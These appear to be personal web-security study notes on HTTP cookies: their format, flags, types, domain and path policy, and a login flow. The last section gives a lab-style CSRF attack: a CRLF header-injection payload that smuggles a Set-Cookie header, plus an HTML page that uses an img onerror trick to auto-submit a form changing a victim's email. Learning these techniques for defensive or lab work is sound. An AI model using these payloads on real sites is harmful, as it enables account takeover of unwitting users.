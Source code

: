 ### General Notes

Created to make [[HTTP]] [[Protocol]] stateful.
- They are textual information that is set by the server, and then installed by a website into the Cookie Jar of the **browser**.
- Storing data on the client side instead of the server side ([[Sessions]]).

> Cookie Jar is storage space where web browser stores cookies.

Can be viewed in JavaScript using `document.cookie` through the DOM, or the Document Object Model.

---
### Cookie Format

Servers can set cookie via the `Set-Cookie` [[HTTP]] header in a response message. Cookies are formed of key=value pairs. In addition to the cookie data, there are some other flags and options that need to be set such as:
* **Expiration Date**: The data when the cookie is no longer to be used, or not to be sent by the browser to the server. Done using `expires`.
* **Path**: sends the cookies to all subsequent requests to this path and everything under it.
* **Domain**: the scope of the cookie, or which domains and subdomains it has access to.
* `HTTPOnly` Flag: only HTML technology can read the cookie. Secure against [[Cross Site Scripting (XSS)]].
* `Secure` Flag: Cookies are only sent over [[HTTPS]].

##### Cookie Types

**Non-persistent Cookies**: These are also called [[Sessions]] cookies, and they are temporary cookies that are stored while a website is being used. 
- Once the browser closes, or the browser session is over, these cookies are deleted.
- These offer enhanced privacy as they do not persist or track users beyond the current session.

**Persistent Cookies**: These remain on the browser or device for a specified period of time as defined by the **expiration date** of the cookie.
- They preserve information between browser sessions, and are useful for maintaining user preferences.
- However, they can be used to track users across multiple sessions and monitor behavior.

**Secure Cookies**: These are cookies that can only be transmitted over [[HTTPS]], and are marked by the `secure` flag.
- These help protect session information and user data.

**HTTPOnly Cookies**: These are cookies that *can not* be accessed by JavaScript.
- These are useful for storing session information and guaranteeing security by preventing scripting technology to access its data.

##### Cookie Policy

Cookies are sent to the valid domain and path, and only when they are not expired.
- They also are managed according to the flags that are set.

**Domain Policy**:
- Cookies can be sent to the subdomains of the domain set, but not vice versa.
- Subdomains can set cookies for their direct super-domain, but not vice versa. This does not apply to TLDs.
- If the domain is not set, the `Host-Only` flag is enabled, and the cookie is only sent to the exact host of the request, or the current domain only.

**Path Policy**:
- Cookies can be sent to the path specified, and anything under that path.
- If the path is empty, the cookie is only sent while accessing the path of the requested resource only.

---
### Cookie Protocol

Login Example: 
1. Browser sends a POST request with username and password
2. Server sends a response with a `set-cookie` header to tell the browser to install the cookie
3. For every further request, the browser considers the cookie data and flags
4. If the checks pass, then a cookie will be inserted in the header of the browser request

> What this does, is that the browser now manages to maintain a *stateful* connection to the server, meaning that all subsequent requests don't need authentication again.

---
### Modifying Cookies for [[Cross Site Request Forgery (CSRF)]]

- A technique to check for adding cookies is through header injection.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```

- Adding a new line then adding the `Set-Cookie` header with the cookie. To use it, it must be URL-encoded. [[Web Encoding]].
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

- To use it in the HTML payload to set a cookie, replace the `script` tags with:
```HTML
<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

- This loads the page that sets the cookie, then since it isn't an image, the `onerror` attribute is fired submitting the form.
``` HTML
<html> 
	<body> 
		<form action="https://URL/path" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="<csrf-token>" />
		</form> 
		<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```

---
